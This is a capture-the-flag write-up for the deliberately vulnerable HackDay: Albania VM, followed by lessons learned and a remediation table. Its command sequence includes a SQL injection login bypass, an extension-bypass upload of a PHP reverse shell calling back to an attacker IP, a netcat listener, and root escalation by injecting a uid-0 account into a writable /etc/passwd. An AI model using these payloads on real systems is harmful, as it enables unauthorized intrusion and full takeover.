



# HackDay: Albania — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.127 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag |
| **Source** | [HackingArticles](http://www.hackingarticles.in/hack-hackday-albania-vm-ctf-challenge/) |

## Attack Summary

HackDay: Albania is a beginner boot-to-root machine that chains robots.txt information disclosure, a hidden banking application discovered through enumerated paths, SQL injection authentication bypass, unrestricted file upload (extension bypass), and privilege escalation via a world-writable `/etc/passwd`. The web application runs on a non-standard port (8008), and its login page is vulnerable to a classic `OR`-based SQL injection payload.

## Methodology

1. Host discovery — Netdiscover
2. Service enumeration — Nmap
3. Web reconnaissance — robots.txt, manual path walking
4. SQL injection authentication bypass
5. PHP reverse shell upload (extension bypass)
6. Shell upgrade via Python PTY
7. Privilege escalation via writable `/etc/passwd`

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover -r 192.168.1.0/24
nmap -A 192.168.1.127
```

Open ports:
- `22/tcp` — SSH
- `8008/tcp` — HTTP


## Step 2: Web Reconnaissance

Navigate to `http://192.168.1.127:8008`. The page contains an HTML comment: "Ok ok, but not here." Check `robots.txt`:

```bash
curl http://192.168.1.127:8008/robots.txt
```

The robots file lists 26 disallowed entries. Walking through them reveals the path `/unisxcudkqjydw/`, which leads to `/unisxcudkqjydw/vulnbank/client/` — a bank login page.



## Step 3: SQL Injection Authentication Bypass

The login form is vulnerable to a boolean-based SQL injection. Use the following credentials:

```
Username: ' or 'a' = 'a' --
Password: #
```

This payload makes the SQL query always evaluate to true, bypassing the password check entirely. The application logs in and presents a "Contact Support" file upload feature.



## Step 4: PHP Reverse Shell Upload

The upload feature validates file extensions but only checks for common PHP extensions. Copy and modify the Kali PHP reverse shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php ~/shell.php
# Edit shell.php: set $ip = '192.168.1.128' and $port = 1234
# Rename to bypass the extension filter
mv ~/shell.php ~/php-reverse-shell.jpg
```

Upload `php-reverse-shell.jpg` through the form. Start a listener before triggering the shell:

```bash
nc -lvp 1234
```

Trigger the uploaded file by navigating to its URL on the server.


## Step 5: Shell Upgrade

Once the reverse shell connects, upgrade to a proper TTY:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Step 6: Privilege Escalation via Writable /etc/passwd

Check file permissions:

```bash
ls -al /etc/passwd
# -rw-rw-rw- 1 root root ... /etc/passwd
```

The file is world-writable. Generate a new password hash on the attacker machine:

```bash
openssl passwd -1 -salt ignite pass123
# $1$ignite$...
```

On the attacker machine, add a new root-equivalent user to a local copy of `/etc/passwd`:

```bash
cp /etc/passwd ~/passwd
echo 'raj:$1$ignite$<HASH>:0:0:root:/root:/bin/bash' >> ~/passwd
python -m SimpleHTTPServer 80
```

On the target machine:

```bash
cd /tmp
wget http://192.168.1.128/passwd
cp passwd /etc/passwd
su raj
# Password: pass123
cd /root
cat flag.txt
```



## Lessons Learned

- SQL injection in login forms remains one of the most common and dangerous vulnerabilities. Parameterized queries or prepared statements eliminate this attack entirely.
- File upload validation that only checks the extension is trivially bypassed by renaming the file. Content-type inspection and server-side execution controls are required.
- A world-writable `/etc/passwd` allows any user on the system to create a root-equivalent account in seconds.
- Hosting services on non-standard ports does not provide any meaningful security benefit if those ports are exposed.

## Remediation

| Vulnerability | Fix |
|---|---|
| SQL injection | Use parameterized queries / prepared statements; never interpolate user input into SQL |
| Unrestricted file upload | Validate MIME type server-side; store uploads outside the web root; disable PHP execution in upload directories |
| World-writable /etc/passwd | `chmod 644 /etc/passwd`; use PAM or shadow passwords; audit file permissions regularly |
| Information disclosure via robots.txt | Do not list sensitive paths in robots.txt; rely on authentication, not obscurity |
